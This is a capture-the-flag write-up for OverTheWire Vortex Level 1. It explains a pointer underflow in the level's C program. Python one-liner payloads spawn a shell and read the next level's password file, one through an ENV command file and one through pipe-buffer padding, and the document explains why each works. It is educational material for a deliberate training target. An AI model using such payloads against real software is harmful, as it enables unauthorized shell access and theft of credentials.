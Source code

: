 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 1"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex1.png)

## Context
The level can be found [here](http://overthewire.org/wargames/vortex/vortex1.html). After analyzing the C source code, we understand the flow and information needed to exploit:
* There's a 512 bytes buffer and a pointer _`ptr`_ that initially points in the middle of the buffer.
* For every **\** character read, the pointer is decremented.
* For every character read which is different than **\n** and **\** we have the possibility to set a byte in _`ptr`_: 

```c
    ptr++[0] = x;
````
* The _`e()`_ macro spawns an [interactive bash shell](http://www.gnu.org/software/bash/manual/bashref.html#Interactive-Shells) (**-i** parameter) and also replaces the image of the current process with _`/bin/sh`_, through _`execlp`_ function. Very important to remember:

<blockquote>
  <p>By default, file descriptors remain open across an execve()</p>
  <cite><a target="_blank" href="http://linux.die.net/man/2/execve">execve(2) - Linux man page</a>
</cite> </blockquote>

* The condition to trigger shell execution can be easily accomplished, given the third point.

Taken these into account, let's try to launch a shell and execute a command:
```bash
$ python -c 'print "\\"*257 + "\xca" + "A" + "\nwhoami"' | ./vortex1
```

The shell exits immediately, without executing the command. Now it's time to check what happens, how bash handles _`EOF`_.

### Method 1
We can actually find a very detailed explanation in this [blog post](http://byteninja.blogspot.ro/2011/09/overthewireorg-vortex-level1.html). The idea is that  when _`execlp`_ is executed, the image of the current process is replaced with  _`/bin/sh`_. But _`execlp`_ doesn't clear STDIN.  So the unparsed input it's still there. The shell is exiting immediately, because it receives an EOF. To overcome this, something in the bash manual comes to help: 

<blockquote>
  <p>When invoked as an interactive shell with the name sh, bash looks for  the variable  ENV,  expands  its value if it is defined, and uses the expanded value as the name of a file to read and execute.</p>
  <cite><a target="_blank" href="https://tiswww.case.edu/php/chet/bash/bashref.html">Bash Reference Manual</a>
</cite> </blockquote>



So we create a new file containing our commands, set the _`ENV`_ variable before and get the password:
```bash
$ vi /tmp/cmd2
cat /etc/vortex_pass/vortex2
 
$ python -c 'print "\\"*257 + "\xca" + "A"' | env ENV=/tmp/cmd2 /vortex/vortex1
```

### Method 2

Some solutions report that a long string before the command causes the command to be actually executed, without an apparent explanation, like this for example:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
$ vortex2
******
```


To understand this, the following [article](http://www.pixelbeat.org/programming/stdio_buffering/) explains the **_buffering applied to standard streams_**, with an example with two processes forked  by bash with a pipe between them, very similar with our case:
```bash
$ command1 | command2
```
The idea is that the kernel uses 4096 bytes circular buffers (for stdin, stdout, and pipe). Being circular, the 4000 characters together with the existent content fill the buffer, and the next part of input does not contain an EOF and commands are executed. Actually, instead of the 4000 "A"s, we just need 4096-257-2-1=3836 extra characters:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*3836+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ $ vortex2
$ ******
```
